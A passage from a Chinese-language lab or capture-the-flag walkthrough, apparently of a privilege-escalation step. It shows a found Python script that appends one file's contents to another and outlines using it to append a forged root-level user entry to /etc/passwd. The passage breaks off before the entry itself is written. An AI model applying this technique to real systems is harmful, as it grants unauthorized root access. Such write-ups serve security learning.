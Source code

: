 得到的两个路径

```
/opt/devstuff/test.py
/usr/lib/python3/dist-packages/setuptools/command/test.py
```

![image-20220322174405194](https://gitee.com/xxb667/img/raw/master/img/image-20220322174405194.png)

## 4.2 查看test.py文件

```
cat /opt/devstuff/test.py
```

python文件内容

```
import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()

```

含义

```
读取参数1的内容，
然后将参数1的内容写入到参数2的内容中。
```

![image-20220322174558468](https://gitee.com/xxb667/img/raw/master/img/image-20220322174558468.png)

## 4.3 构造用户实现提权

根据找到的test.py文件信息

- 我们可以构造一个root权限用户
- 将该用户信息写入文件内
- 将改文件作为参数1
- `/etc/passwd`作为参数2
- 这样就创建了一个root权限用户
- 就能实现提权了

构造参数1
